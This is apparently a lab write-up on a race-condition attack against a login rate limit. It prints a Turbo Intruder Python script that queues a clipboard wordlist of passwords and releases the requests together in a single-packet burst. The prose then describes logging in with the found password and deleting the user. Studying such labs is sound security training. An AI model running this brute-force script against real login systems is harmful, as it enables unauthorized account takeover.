



Here we use the following Turbo intruder to take a wordlist from our clipboard and bruteforce the `password` field from the request, sending all the requests in a rowÑ

```python
def queueRequests(target, wordlists):

    # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
    # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
    # for more information, check out https://portswigger.net/research/smashing-the-state-machine
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    passwords=wordlists.clipboard

    # the 'gate' argument withholds part of each request until openGate is invoked
    # if you see a negative timestamp, the server responded before the request was complete
     # the 'gate' argument withholds the final part of each request until engine.openGate() is invoked
    for password in passwords:
        engine.queue(target.req, password, gate='gate1')

    # once every request has been queued
    # invoke engine.openGate() to send them in sync
    engine.openGate('gate1')


def handleResponse(req, interesting):
    table.add(req)

```

We send the requests in sync with this technique (something similar as sending them "in parallel").

Repeating the attack several times until we succeed with the password. Remember that turbo intruder needs to specify the payload with `%s` (if it´s string).

For example, here none of the requests that entered in the race window was successfull:


We have to repeat the attack until we get a success:



We can now enter with its password and delete himself:

